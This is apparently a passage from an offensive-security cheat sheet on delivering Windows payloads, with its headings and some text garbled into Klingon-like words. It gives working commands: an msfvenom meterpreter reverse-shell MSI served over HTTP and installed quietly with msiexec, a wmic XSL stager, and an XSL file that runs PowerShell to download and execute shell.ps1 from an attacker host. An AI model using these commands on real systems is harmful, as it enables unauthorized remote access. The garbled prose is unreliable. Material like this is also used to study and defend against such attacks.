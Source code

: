 ```bash
\\10.8.0.3\kali\shell.bat
```
**Qa'vIn Defender**

## **MSIExec**

Qa'vInpu' 'e' yIDel

## **MSIExec**

Qa'vInpu' 'e' yIDel
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.2.0.5 lport=1234 -f msi > shell.msi
python -m SimpleHTTPServer 80
```
**Victim:**

The victim is the target of the hacking attack. It refers to the individual, organization, or system that the hacker intends to compromise or gain unauthorized access to. Understanding the victim's vulnerabilities, weaknesses, and potential entry points is crucial for a successful hacking attempt.
```
victim> msiexec /quiet /i \\10.2.0.5\kali\shell.msi
```
**Qap**

## **Wmic**

* [Qa'pu'](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
```bash
wmic os get /format:"https://webserver/payload.xsl"
```
Example xsl file [from here](https://gist.github.com/Arno0x/fa7eb036f6f45333be2d6d2fd075d6a7):
```xml
<?xml version='1.0'?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0">
<output method="text"/>
<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c echo IEX(New-Object Net.WebClient).DownloadString('http://10.2.0.5/shell.ps1') | powershell -noprofile -");
]]>
</ms:script>
</stylesheet>
```
**ghItlhvam**

**tlhInganpu' jatlhlaHbe'chugh, Koadic zombie download & execute laH wmic stager.**

## Msbuild
